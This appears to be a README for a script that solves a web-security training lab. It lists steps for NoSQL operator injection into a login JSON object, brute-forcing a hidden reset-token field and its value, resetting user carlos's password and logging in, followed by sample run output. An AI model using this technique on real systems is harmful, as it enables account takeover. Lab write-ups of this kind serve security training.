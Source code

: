 ## Hack Steps

1. Fetch the forgot-password page
2. Extract the csrf token and session cookie
3. Make a forgot-password request for carlos
4. Inject an operator and payload into the login JSON object to determine the length of the unknown field name
5. Modify the payload to brute force the field name
6. Modify the payload to determine the length of the field value
7. Modify the payload to brute force the field value
8. Fetch the forgot-password page with the field name and its value as a query pararmeter
9. Extract the csrf token and session cookie
10. Make a reset password request for carlos
11. Login as carlos with the new password
12. Fetch the carlos profile

## Run Script

1. Change the URL of the lab
2. Start script

```
~$ python main.py
```

## Expected Output

```
#⦘ Injection point: login JSON object
⦗1⦘ Fetching the forgot-password page.. OK
⦗2⦘ Extracting the csrf token and session cookie.. OK
⦗3⦘ Sending a reset password request for carlos.. OK
⦗4⦘ Determining the length of the 3rd field.. 
❯❯ Checking if length = 5 
❯❯ Checking if length = 9 
                ...........
❯❯ Checking if length = 11 [ Correct length: 11 ]
⦗5⦘ Brute force the field name.. 
❯❯ Checking if char at position 4 = c [ Correct: unloc ]
❯❯ Checking if char at position 7 = o [ Correct: unlockTo ]
                ...........
❯❯ Checking if char at position 10 = n [ Correct: unlockToken ]
⦗6⦘ Determining the length of the 3rd field value.. 
❯❯ Checking if length = 5 
❯❯ Checking if length = 9 
                ...........
❯❯ Checking if length = 11 [ Correct length: 11 ]
⦗7⦘ Brute force the field value.. 
❯❯ Checking if char at position 5 = e [ Correct: 326f5e ]
❯❯ Checking if char at position 9 = 0 [ Correct: 326f5e3852 ]
                ...........
❯❯ Checking if char at position 15 = 0 [ Correct: 326f5e38529aa000 ]
⦗8⦘ Fetching the forgot-password page with the field name and its value as a query pararmter.. OK
⦗9⦘ Extracting the csrf token and session cookie.. OK
⦗10⦘ Reseting carlos password to Hacked..OK
⦗11⦘ Logging in as the carlos.. OK
⦗12⦘ Fetching the carlos profile.. OK
🗹 The lab should be marked now as solved
```
